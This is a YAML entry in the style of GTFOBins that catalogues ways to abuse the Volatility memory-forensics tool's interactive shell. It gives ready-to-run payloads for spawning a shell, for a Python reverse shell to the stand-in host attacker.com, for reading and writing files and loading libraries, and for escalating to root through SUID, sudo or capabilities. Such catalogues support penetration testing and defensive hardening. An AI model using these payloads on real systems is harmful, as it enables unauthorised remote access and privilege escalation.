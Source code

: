 ```yaml
---
description: The payloads should be compatible with both Python version 2 and 3.
functions:
  shell:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        \_\_import\_\_("os").system("/bin/sh")
  reverse-shell:
    - description: Run ``netcat -lp 12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        import os,subprocess
        shell = "import sys,socket,os,pty;s=socket.socket();s.connect((%s,int(%s)));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\\\"/bin/sh\\\")"%(repr(os.getenv("RHOST")),repr(os.getenv("RPORT")))
        subprocess.call(["/bin/sh","-c","python3 -c \"%s\""%shell])
  file-write:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        open("file_to_write","w+").write("DATA")
  file-read:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        print(open("file_to_read").read())
  library-load:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        from ctypes import cdll; cdll.LoadLibrary("lib.so")
  suid:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        import os;os.execl("/bin/sh", "sh", "-p")
  sudo:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        import os;os.system("/bin/sh")
  capabilities:
    - code: |
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        import os;os.setuid(0);os.system("/bin/sh")
---
```


